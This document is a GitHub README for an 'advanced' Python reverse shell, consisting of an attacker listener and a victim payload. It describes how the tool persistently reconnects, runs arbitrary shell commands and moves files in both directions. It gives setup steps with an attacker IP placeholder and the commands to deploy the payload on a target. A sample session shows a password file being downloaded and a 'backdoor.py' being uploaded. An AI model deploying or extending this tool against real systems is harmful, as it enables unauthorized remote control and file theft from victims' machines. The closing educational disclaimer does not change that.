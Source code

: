 
# 🚀 Advanced Python Reverse Shell

This **advanced version** of the Python reverse shell is a powerful upgrade over the basic version, designed with reliability, extended capabilities, and operational stealth in mind. It maintains the simplicity of Python while introducing features critical for realistic penetration testing and red teaming exercises.

Unlike the basic version, which provides core command execution and a linear connection, this advanced version ensures persistent communication, intelligent command handling, and secure file transfers — making it a practical tool for ethical hackers.

---

## 🆚 Basic vs Advanced: What's New?

| Feature                      | Basic Version                    | Advanced Version                                                      |
| ---------------------------- | ------------------------------- | ------------------------------------------------------------------- |
| Persistent Reconnect          | ❌ Single connection attempt     | ✅ Reconnects every 5 seconds if listener is offline                |
| File Download                | ❌ Not supported                 | ✅ Supported with pattern-based listing and exact match download    |
| File Upload                  | ❌ Not supported                 | ✅ Send files from hacker to victim with integrity checks           |
| Directory Navigation (`cd`)   | ✅ Supported                    | ✅ Improved, supports path echoing and default display              |
| Command Output Handling       | ⚠️ Plaintext with limited fallback | ✅ Cross-platform decoding with `cp437` (Windows) and `utf-8` fallback |
| Empty Command Output Handling | ❌ No feedback                  | ✅ "No output" feedback when silent commands are run                |
| Graceful Exit (`stop`)        | ✅ Supported                   | ✅ Improved clean disconnection and shutdown                        |
| Socket Reuse (SO_REUSEADDR)  | ❌ Not handled                 | ✅ Enables quick listener restarts without port binding errors      |

---

## 📁 Directory Contents

```

Advanced-Version/
├── README.md                # You are here
├── advanced\_hacker.py       # Attacker script (listener and controller)
└── advanced\_victim.py       # Victim payload (persistent reverse shell)

````

---

## 💡 Core Features

* **🔁 Reconnection Loop**: Victim automatically retries connecting to hacker every 5 seconds if disconnected.
* **💻 Command Execution**: Cross-platform shell support (PowerShell, cmd, bash). Uses `subprocess.run` with output decoding.
* **📂 `cd` Support**: Allows directory changes with confirmation, or just shows current directory if used alone.
* **📥 File Download**:
  * Request exact file or pattern (e.g., `report` lists `report.txt`, `report.pdf`, etc.).
  * Select from matches for precise download.
* **📤 File Upload**:
  * Send files from hacker to victim securely.
  * Hacker verifies file exists and is non-empty before sending.
* **🛑 Graceful Termination**: The `stop` command cleanly shuts down both scripts.
* **📡 Port Reuse**: Hacker script uses `SO_REUSEADDR` to allow instant port reuse after closure.
* **⚙️ Robust File Protocol**:
  * All file transfers are in binary.
  * Transfers begin with an 8-byte size header.
  * Size `0` signals "not found", "empty", or "canceled" conditions.

---

## 🚀 Usage Guide

### 🔧 1. Configure IP and Port

Edit both scripts and set:

```python
hacker_ip = "YOUR_ATTACKER_IP"
hacker_port = 10000
````

Ensure both use the same values. On attacker machine, use `ip a` (Linux) or `ipconfig` (Windows) to find your IP.

---

### 🧠 2. Start Listener (Hacker)

```bash
python3 advanced_hacker.py
```

Wait for incoming connections.

---

### 👾 3. Deploy Victim Script

On the target (victim) machine:

```bash
python3 advanced_victim.py
```

It will continuously retry until the hacker connects.

---

## 💬 Commands You Can Use

| Command                     | Description                                  |
| --------------------------- | -------------------------------------------- |
| `cd`                        | Show current directory                       |
| `cd <path>`                 | Change directory                             |
| `download <file or prefix>` | Download file (or match pattern) from victim |
| `upload <filename>`         | Upload file from hacker to victim            |
| `stop`                      | Cleanly terminate the session                |
| *any other command*         | Executed as shell command on victim          |

---

## 📌 Sample Session

**Attacker:**

```bash
python3 advanced_hacker.py
Listening for incoming connections...
[+] Connected with ('192.168.0.105', 50832)
> whoami
victim-pc\user

> cd Desktop
Changed directory to Desktop

> download pass
All files with (pass) name:
  [+] pass.txt
  [+] pass_list.docx
Type exact file name:
> download pass_list.docx
Yes, the file exists!
Receiving file (38290 bytes)...
File downloaded successfully!

> upload backdoor.py
File uploaded successfully!

> stop
[*] Session terminated. Exiting.
```

**Victim Output (optional, not shown to attacker):**

```
[*] Connected to hacker.
whoami is executed successfully!
cd Desktop is executed successfully!
download pass is executed successfully!
download pass_list.docx is executed successfully!
upload backdoor.py is executed successfully!
stop is executed successfully!
```

---

## 🧪 Advanced Internals

### 🔄 Persistent Reconnect

Victim attempts reconnection every 5 seconds. This is ideal when listener crashes or is temporarily offline.

### 📜 Command Dispatch

Victim classifies and handles:

* `cd`
* `download`
* `upload`
* `stop`
* Any other command → routed to shell via `subprocess.run()`

### 📁 File Transfer Protocol

* 8-byte length header sent before file data.
* Chunked send/receive.
* Zero-length used for signaling "not found" or "empty".

### 🧬 Encoding Fallback

* Windows: `cp437`
* Linux/macOS: `utf-8`
* Always fallback to `errors="replace"` to avoid crashes from malformed characters.

---

## ⚠️ Legal Disclaimer

This tool is intended **solely for educational use** and authorized ethical hacking engagements. Unauthorized access or usage of this tool on systems you do not own or have explicit permission to test is illegal. The author assumes no responsibility for any misuse or consequences thereof.

```
